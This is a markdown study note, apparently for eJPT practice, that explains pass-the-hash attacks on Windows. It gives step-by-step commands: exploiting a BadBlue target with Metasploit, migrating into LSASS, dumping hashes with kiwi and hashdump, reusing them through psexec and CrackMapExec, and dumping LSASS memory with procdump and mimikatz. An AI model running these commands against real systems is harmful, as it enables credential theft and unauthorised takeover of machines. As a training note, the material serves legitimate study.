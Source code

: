 # Pass-The-Hash Attack
> Steals the hashed version of someone's password
> -> Uses that hash to log in as that person (Without knowing the actual password)


Why does this work?
In Windows system (especially with SMB, WinRM, or RDP), when you log in:\
- Windows doesn't need the *actual password*, just the **NTLM** hash.
- if I have the **hash** I can use it to log in without decrypting it.
- ⚠️Works only after initial access (post-exploitation)

Example hash
```bash
#The las long string is the NTLM hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
---



Start PostgreSQL and open Metasploit framework console\
[Command breakdown](https://github.com/itr-a/eJTP-Learning/blob/66b4dafe0953fbd05266c1fad910c056686ff57c/Tools/PostgreSQL.md#14)
```bash
service postgresql start && msfconsole
```
Search module
```bash
msf6> search badblue
```
Choose module from **Matching Modules**
```bash
use 1
```
Specify target IP
```bash
set RHOSTS <IP>
```
Exploit
```bash
exploit
```
Find the Process ID of LSASS (Local Security Authority Subsystem Service) process
`pgrep` is Linux command
```bash
meterpreter> pgrep lsass
```
[Command breakdown](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#81)
```bash
meterpreter> migrate <PID>
```
Show previlege\
[Command](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#94)
```bash
getuid
```
Load kiwi [kiwi](https://github.com/itr-a/eJTP-Learning/blob/a3fee5c216c3fb40066529c6048813e24e3b5b9b/Tools/Metasploit.md#101)
```bash
load kiwi
```
Get Administrator and TLM credentials
```bash
meterpreter> lsa_dump_sam

#Another way
meterpreter> hashdump
```
Put meterpreter session in the background (Ctr + Z)
Search for the module
(Exploit Windows SMB psexec)
```bash
exploit> search psexec
```
Set username and password
```bash
set SMBUser <username>
set SMBPass
```
Exploit
```bash
exploit
```
CrackMapExec
```bash
# In new Terminal tab
# -H <hash> for hashed password
crackmapexec smb <target-IP> -u <username> -p <password>

#-x for execute a command
~~~~ -x "whoami"
```



#### 📔 Note
- LSASS
  Why we care LSASS?
  -> `lsass.exe` stores sensitive information in memory especially:
  - Logged-in **user credentials**
  - **Password hashes**
  - Authentication tokens\
 
    
  Typical attack flow
  - Exploit the system (gain access)
  - Find `lsass` PID
   ```bash
   pgrep lsass
   ```
  - Dump memory of that PID
   ```bash
   procdump -ma <PID> lsass.dmp
   ```
  - Extract passworkds/hashes with:
  ```bash
  mimikatz lsass.dmp
  ```
